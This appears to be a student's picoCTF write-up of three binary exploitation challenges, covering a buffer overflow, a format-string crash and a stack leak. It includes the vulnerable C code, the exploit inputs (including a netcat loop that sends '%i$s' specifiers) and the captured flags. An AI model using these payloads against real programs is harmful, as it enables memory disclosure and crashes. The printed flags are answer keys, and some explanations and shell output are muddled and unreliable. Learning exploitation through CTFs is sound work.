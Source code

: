 # Binary Exploitation
<br>

## Challenge-1 Buffer Overflow 0

### Process
Looking at the code we see that 

    void vuln(char *input){
        char buf2[16];
        strcpy(buf2, input);
        }

thus our buffer can only be 16 characters long at a time.

So I just run the netcat instance ` nc saturn.picoctf.net 51447`
and give the input `aaaaaaaaaaaaaaaaaaaaaaaaaaaa`

and get the overflowed flag
`picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}`
<br>

### Things Learned
what is `#define`?
 It is used to define a preprocessor directive that is used to define macro in C.

what is `signal function`
This function is used to set the custom handler for different signal outputs in the program
In this challenge specifically we use it set the handler for `SIGSEGV` or `segmentation fault`

what is `setresgid(gid, gid, gid)`
This is used to set the effective id as our id. We do this so that we can get effective permissions to work with different files and programs
<br>

### Mistakes I made
I had to learn everything in the code as i didn't what is going on


<br><br>

## Challenge-2 format string 0

### Process
As i am observing the main function of the format-string-0.c file. I come acoss this 
    
    char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burgeryet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n","Patrick is still hungry!","Try to serve him something of larger size!");
    fflush(stdout);

here, we have see a menu containing 3 options, then our condition statement check if our input is in the menu or not. Then if the input is 2*BUFFSIZE(32) it turns to bob function

Now the `Gr%114d_Cheese` option will be have 0 preceeded by 114 empty spaces thus this will lead to else condition

Now coming to bob fucntion we have something similar

    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }

NOw if you use the `Cla%sic_Che%s%steak` will lead to segmentation fault. Thus leading to output of flag

Giving me the flag `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}`
<br>

### Things I learned
what is a string vulnerability
How we can use this string vulnerabilities to get the flag
<br>

### Mistakes I made
none for this one
<br><br>

## Challenge-3 flag leak
In this challenge, one thing your will notice is, there is no concept for our buffer handling or segmentation fault

Also in the `vuln2.c` file (which is our soure), whatever we add is given back to us as the output so what if we manage to print out in the memory address where our flag is getting stored like in 

    void readflag(char* buf, size_t len) {
        FILE *f = fopen("flag.txt","r");
        if (f == NULL) {
            printf("%s %s", "Please create 'flag.txt' in this directory with your","own debugging flag.\n");
            exit(0);
        }
    
        fgets(buf,len,f); // size bound read
    }

So in the input I try to add memory holder `%i$s` and as an output i get the string at the ith string compartment
    
    snorlux@MrinalPC:/mnt/f/Cryptonite_taskphase2_Mrinal/Binary$ %4$s
    echo "%$i\$s" | nc saturn.picoctf.net 59356
    Tell me a story and then I'll tell you one >> Here's a story -
    ����������؉ǀ�u��^H�C�p��s��u��C

Thus we can get hidden strings and can even find the flag at the correct positional string compartment

So to go through all of them i use the command
    for i in {0..99}; do echo "%$i\$s" | nc saturn.picoctf.net 64716; done

And get the flag `picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}`
<br>

### Things i learned
You can access the string at specific positional order in the file using `%i$s`

You can write code in the wsl shell itself and pipe the output to a specifc file
